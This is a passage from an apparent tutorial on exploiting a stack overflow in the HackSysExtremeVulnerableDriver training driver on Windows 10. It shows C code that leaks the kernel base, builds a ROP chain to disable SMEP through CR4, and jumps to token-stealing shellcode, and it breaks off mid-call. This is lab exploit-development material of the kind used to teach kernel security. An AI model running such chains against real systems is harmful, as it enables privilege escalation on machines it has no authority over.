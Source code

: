 Also note I hardcoded a value to write into `cr4`. It would be more idea to read it first, but I couldn't find any gadgets to do this ☹. Regardless the best approach is to flip the `Owner` bit in the [PTE](https://learn.microsoft.com/en-us/windows-hardware/drivers/debuggercmds/-pte) as this bypass works with VBS enabled. See <https://wetw0rk.github.io/posts/0x04-writing-what-where-in-the-kernel/#windows-11-x64> for a good example.

Because these gadgets are within the kernel (C:\Windows\System32\ntoskrnl.exe), we need to break kASLR. Lucky we are on Windows 10 running in medium integrity and there are many Win32 APIs to do so. On Windows 11 24H2 this requires a kernel memory leak.
```c
PVOID GetKernelBaseAddress() {
	LPVOID drivers[1024] = { 0 };
	DWORD cbNeeded;
	EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded);
	return drivers[0];
}
```
The kernel base address can be confimred by running `lm sm *nt*` in WinDbg. 

The new code is:
```c
int main(void) {

	u8 token_steal[256] = { 0x90 }; // NOPs
	
	u64 kernelBase = (u64)GetKernelBaseAddress();

	u64 POP_RCX     = kernelBase + 0x9b2952; // pop rcx; ret;
	u64 MOV_CR4_RCX = kernelBase + 0x9aa31b; // mov cr4, rcx; ret;

	HANDLE hDriver = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver", // lpFileName
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);
    
	const u64 offset = 2072;
	const u64 payloadSize   = 2500;
	const u64 shellcodeSize = 4096;

	LPVOID payload   = VirtualAlloc(NULL, payloadSize,   MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	LPVOID shellcode = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memset(payload, '\x41', payloadSize);
	memcpy(shellcode, token_steal, sizeof(token_steal));

	u64* rop = (u64*)((u64)payload + offset);

	u64 index = 0;
	*(rop + index++) = POP_RCX;
	*(rop + index++) = 0xb50ef8 ^ 1UL << 20; // hardcoded value of CR4
	*(rop + index++) = MOV_CR4_RCX;
	*(rop + index++) = (u64)shellcode;

	DeviceIoControl(
		hDriver,
		HEVD_IOCTL_BUFFER_OVERFLOW_STACK,
		payload,
		(DWORD)payloadSize,
		NULL,
```